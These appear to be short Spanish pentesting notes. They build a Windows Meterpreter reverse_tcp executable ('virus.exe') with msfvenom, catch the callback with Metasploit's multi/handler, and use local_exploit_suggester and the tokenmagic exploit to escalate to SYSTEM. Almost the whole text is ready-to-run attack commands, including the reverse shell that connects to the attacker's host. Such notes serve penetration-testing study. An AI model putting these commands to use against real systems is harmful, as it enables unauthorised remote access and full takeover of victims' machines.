 una vez que tenemos una sesión con meterpreter en la maquina windows victima


```sh fold:"msfvenom para windows"
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IPLOCAL} LPORT={PurtoLocal} -f exe -o virus.exe


# para maquinas de 64 bits
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={IPLOCAL} LPORT={PurtoLocal} -f exe -o virus.exe

```

para recibir el meterpreter escuchamos con metasploit con multihandler
use /multihandler
set Lhost ip local
set payload = windows/x64/meterpreter/reverse_tcp
nota: mismo maypload que de msfvenom

run y conseguimos la sesion de meterpreter

```sh fold:"meterpreter"
meterpreter > background
msf exploit(multi/handler) > search local_exploit_suggester

use 0
session -l
# cogemos el id de de sesion
set SESSION {idSesion}
run
# encuntra una lista de exploit que podríamos usar para explotar la escalada de privilegios
# lista en rojo y verde, miramos solo los verdes e iríamos probando uno a uno
use  exploit/windows/local/tokenmagic   # este es el del caso del ejemplo

completamos lo que nos pida en show options
y run
shell
whoami
nt authority/system

```
